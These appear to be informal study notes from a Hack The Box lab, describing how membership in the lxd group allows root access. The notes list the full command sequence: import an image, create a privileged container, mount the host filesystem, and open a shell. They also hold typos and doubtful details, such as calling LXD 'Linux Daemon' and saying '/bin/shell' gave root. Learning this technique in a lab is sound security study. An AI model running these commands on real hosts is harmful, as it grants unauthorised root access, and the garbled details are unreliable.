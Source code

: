 Containers operate at the operating system level and virtual machines at the hardware level. Containers thus share an operating system and 
isolate application processes from the rest of the system, while classic virtualization allows multiple operating systems to run simultaneously on a single system.

**Linux Containers**
Linux Containers (LXC) is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a 
single host by owning their own processes but sharing the host system kernel for them. LXC is very popular due to its ease of use and has become an essential part of IT security.

**Linux Daemon**
Linux Daemon (LXD) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container.
 we must be in either the LXC or LXD group to run these commands. 

 uid=1000(htb-student) gid=1000(htb-student) groups=1000(htb-student),116(lxd)

**Now to exploit:**
Eitehr create own container and transfer it to the target system, or use an existing container. 

If there is no password, lets import the container as an image.

After verifying image has been imported we can initiate the image and configure it. 
After verifying that this image has been successfully imported, we can initiate the image and configure it 
by specifying the security.privileged flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.

commands ran: id
cd ContainerImages
ls
lxc image import alpine-v3.18-x86_64-20230607_1234.tar.gz
lxc image list 
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|       | b14f17d61b9d | no     | alpine v3.18 (20230607_12:34) | x86_64       | CONTAINER | 3.62MB | Sep 15, 2025 at 5:58pm (UTC) |
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
lxc init b14f17d61b9d privesc -c security.privileged=true   (b14.... was the fingerprint seen above)
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
(this adds device host-root to privsec)
Now we can start another continer and go to the path specified to access the resource as root. 
lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash

**NOTE** /bin/bash did not work HOWEVER /bin/shell did and provided root

ls -l /mnt/root to display root resourcecd

pretty sure I ran it properly, but I did not find any files in the root directory.  Checked the guide and it looked the same as what I did
may need more research. 

